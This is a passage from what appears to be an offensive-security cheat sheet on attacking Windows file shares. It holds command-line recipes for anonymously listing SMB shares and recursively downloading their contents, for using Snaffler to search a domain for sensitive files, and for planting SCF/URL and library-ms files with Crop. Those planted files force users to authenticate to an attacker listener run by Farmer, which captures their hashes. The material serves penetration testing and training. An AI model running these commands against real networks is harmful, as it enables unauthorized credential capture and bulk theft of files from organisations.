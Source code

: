 * [SecureAuthCorp/smbclient from Impacket](https://github.com/SecureAuthCorp/impacket)
  ```powershell
  smbclient -I 10.10.10.100 -L ACTIVE -N -U ""
          Sharename       Type      Comment
          ---------       ----      -------
          ADMIN$          Disk      Remote Admin
          C$              Disk      Default share
          IPC$            IPC       Remote IPC
          NETLOGON        Disk      Logon server share
          Replication     Disk      
          SYSVOL          Disk      Logon server share
          Users           Disk
  use Sharename # select a Sharename
  cd Folder     # move inside a folder
  ls            # list files
  ```

* [smbclient - from Samba, ftp-like client to access SMB/CIFS resources on servers](#)
  ```powershell
  smbclient -U username //10.0.0.1/SYSVOL
  smbclient //10.0.0.1/Share

  # Download a folder recursively
  smb: \> mask ""
  smb: \> recurse ON
  smb: \> prompt OFF
  smb: \> lcd '/path/to/go/'
  smb: \> mget *
  ```


* [SnaffCon/Snaffler - a tool for pentesters to help find delicious candy](https://github.com/SnaffCon/Snaffler)
  ```ps1
  snaffler.exe -s - snaffler.log

  # Snaffle all the computers in the domain
  ./Snaffler.exe -d domain.local -c <DC> -s

  # Snaffle specific computers
  ./Snaffler.exe -n computer1,computer2 -s
  ​
  # Snaffle a specific directory
  ./Snaffler.exe -i C:\ -s
  ```


## SCF and URL file attack against writeable share

Theses attacks can be automated with [Farmer.exe](https://github.com/mdsecactivebreach/Farmer) and [Crop.exe](https://github.com/mdsecactivebreach/Farmer/tree/main/crop)

```ps1
# Farmer to receive auth
farmer.exe <port> [seconds] [output]
farmer.exe 8888 0 c:\windows\temp\test.tmp # undefinitely
farmer.exe 8888 60 # one minute

# Crop can be used to create various file types that will trigger SMB/WebDAV connections for poisoning file shares during hash collection attacks
crop.exe <output folder> <output filename> <WebDAV server> <LNK value> [options]
Crop.exe \\\\fileserver\\common mdsec.url \\\\workstation@8888\\mdsec.ico
Crop.exe \\\\fileserver\\common mdsec.library-ms \\\\workstation@8888\\mdsec
```
